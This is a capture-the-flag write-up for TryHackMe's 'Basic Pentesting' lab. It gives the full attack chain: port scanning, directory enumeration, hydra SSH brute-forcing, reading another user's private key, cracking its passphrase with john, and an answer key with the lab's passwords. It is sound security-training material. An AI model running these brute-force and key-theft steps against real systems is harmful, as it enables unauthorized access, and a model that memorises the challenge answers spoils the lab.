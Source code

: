 # Basic Pentesting - TryHackMe Writeup

This is a writeup for the "Basic Pentesting" room on TryHackMe, [here](https://tryhackme.com/room/basicpentestingjt).

---

## Steps

### 1. Deploy the Machine and Connect to the Network
- Deployed the machine via TryHackMe and connected to the provided network.
- Machine IP: `[VICTIM IP]` (e.g., `10.10.16.21`)

### 2. Find the Services Exposed by the Machine
- Used `nmap` to scan for open ports and services:
  ```bash
  nmap -sV -p- [VICTIM IP]
  ```
- Example:
  ```bash
  nmap -sV -p- 10.10.16.21
  ```
- Results:
  ```
  PORT     STATE SERVICE     VERSION
  22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
  80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
  139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
  8080/tcp open  http        Apache Tomcat 9.0.7
  ```
- Key services identified: SSH (port 22), HTTP (ports 80 and 8080), Samba (ports 139 and 445), and AJP (port 8009).

### 3. Find the Hidden Directory on the Web Server
- Used `gobuster` to enumerate directories on the web server:
  ```bash
  gobuster dir -u http://[VICTIM IP] -w [WORD LIST PATH]
  ```
- Example:
  ```bash
  gobuster dir -u http://10.10.16.21 -w ~/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
  ```
- Found a hidden directory: `development` (status code 301).
- Answer: `development`

### 4. User Brute-Forcing to Find Username & Password
- Ran `enum4linux` to enumerate users and Samba shares:
  ```bash
  enum4linux -a [VICTIM IP]
  ```
- Example:
  ```bash
  enum4linux -a 10.10.16.21
  ```
- Identified two users: `jan` and `kay`.
- Found a note in the `development` directory indicating `jan` had a weak password.
- Used `hydra` to brute-force SSH credentials for `jan`:
  ```bash
  hydra -l jan -P [WORD LIST PATH] [VICTIM IP] ssh
  ```
- Example:
  ```bash
  hydra -l jan -P ~/Tools/wordlists/rockyou.txt 10.10.160.212 ssh
  ```
- Discovered credentials:
  - Username: `jan`
  - Password: `armando`

### 5. Access the Server
- Connected to the machine via SSH:
  ```bash
  ssh jan@[VICTIM IP]
  ```
- Example:
  ```bash
  ssh jan@10.10.16.21
  ```
- Entered password `armando` and gained access to `jan@basic2:~$`.
- Service used: `SSH`

### 6. Enumerate the Machine for Privilege Escalation
- Checked privileges; `jan` lacked root access and couldn’t read files in `/home/kay` which stores 'pass.bak' which we are assuming holds a password of some sorts.
- SO we will use linPEAS to enumerate weaknesses and privilege escalation opportunities.
- Downloaded `linpeas.sh` from [PEASS-ng](https://github.com/peass-ng/PEASS-ng/releases) and transferred it to the target:
  ```bash
  scp linpeas.sh jan@[VICTIM IP]:/dev/shm
  ```
- Example:
  ```bash
  scp linpeas.sh jan@10.10.16.21:/dev/shm
  ```
- Entered password `armando` for SCP.
- On the target:
  ```bash
  cd /dev/shm
  chmod +x linpeas.sh  # to make it executable
  ./linpeas.sh
  ```
- `linpeas.sh` identified an SSH private key (`id_rsa`) in `/home/kay/.ssh/`.

### 7. Privilege Escalation to User `kay`
- Navigated to `/home/kay/.ssh/` as `jan` and read the `id_rsa` file:
  ```bash
  cd /home/kay/.ssh/
  ls -la
  cat id_rsa
  ```
- Copied the private key to my local machine, saved it as `kay_id_rsa`, and set permissions:
  ```bash
  nano kay_id_rsa  # Pasted the key
  chmod 600 kay_id_rsa # to make it only viewable by us
  ```
- Attempted SSH with the key:
  ```bash
  ssh -i kay_id_rsa kay@[VICTIM IP]
  ```
- Example:
  ```bash
  ssh -i kay_id_rsa kay@10.10.16.21
  ```
- Prompted for a passphrase, which was unknown at this point.

### 8. Crack the Passphrase
- Used `ssh2john.py` to convert the private key to a crackable format:
  ```bash
  [PATH TO SSH2JOHN] kay_id_rsa > forjohn.txt
  ```
- Example:
  ```bash
  /opt/john/ssh2john.py kay_id_rsa > forjohn.txt
  ```
- Cracked the passphrase with `john`:
  ```bash
  [PATH TO JOHN] forjohn.txt --wordlist=[WORD LIST PATH]
  ```
- Example:
  ```bash
  /opt/john/john forjohn.txt --wordlist=~/Tools/wordlists/rockyou.txt
  ```
- Passphrase found: `beeswax`

### 9. Access `kay` Account and Obtain Final Password
- Logged in as `kay` using the private key and passphrase:
  ```bash
  ssh -i kay_id_rsa kay@[VICTIM IP]
  ```
- Example:
  ```bash
  ssh -i kay_id_rsa kay@10.10.16.21
  ```
- Entered passphrase `beeswax` and gained access to `kay@basic2:~$`.
- Listed files and found `pass.bak`:
  ```bash
  ls
  cat pass.bak
  ```
- Final password: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

---

## Answers to Challenge Questions
1. **Hidden directory on the web server**: `development`
2. **Username**: `jan`
3. **Password**: `armando`
4. **Service used to access the server**: `SSH`
5. **Name of the other user**: `kay`
6. **Final password**: `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`

---

## Tools Used
- `nmap`: Port scanning and service enumeration.
- `gobuster`: Directory enumeration.
- `enum4linux`: Samba and user enumeration.
- `hydra`: SSH brute-forcing.
- `scp`: File transfer to the target.
- `linpeas.sh`: Privilege escalation enumeration.
- `john` & `ssh2john.py`: Passphrase cracking.

---


